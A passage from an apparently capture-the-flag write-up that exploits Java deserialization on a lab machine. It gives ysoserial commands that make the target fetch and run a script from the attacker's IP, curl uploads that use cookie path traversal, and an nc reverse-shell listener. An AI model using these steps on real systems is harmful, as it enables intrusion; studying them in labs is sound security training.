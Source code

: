     # 1. list the argu
    $  java -jar ysoserial.jar
    # Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'

    # 2. create seialized session file to download our payload with curl
    java -jar ysoserial.jar CommonsCollections2 "curl http://(your ip)/play1.sh -o /tmp/targetplay.sh" > uploadfile.session

    java -jar ysoserial.jar CommonsCollections2 "curl http://10.10.15.118/play1.sh -o /tmp/targetplay.sh" > uploadfile.session

    # 3. create second serizlized session file to execute the payload
    java -jar ysoserial.jar CommonsCollections2 "bash /tmp/targetplay.sh" > executefile.session
    ```

3. send curl command with the cookie and malicious files.

```bash
# vim curlcomand.sh
# !/bin/bash
curl http://10.10.10.205:8080/upload.jsp -H 'Cookis:JESSIONID=../../../tmp/uploadfile' -F 'image=@uploadfile.session'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookis:JESSIONID=../../../tmp/executefile' -F 'image=@executefile.session'
```

4. setup listener for the reverse shell and webserver for the payload downloaded by the target

    ```bash
    # tab1:
    pyserver

    # tab2:
    nc -lvnp 2424

    # tab3:
    bash curlcomand.sh

    # tab2:
    # get the reverse shell!
    ```

---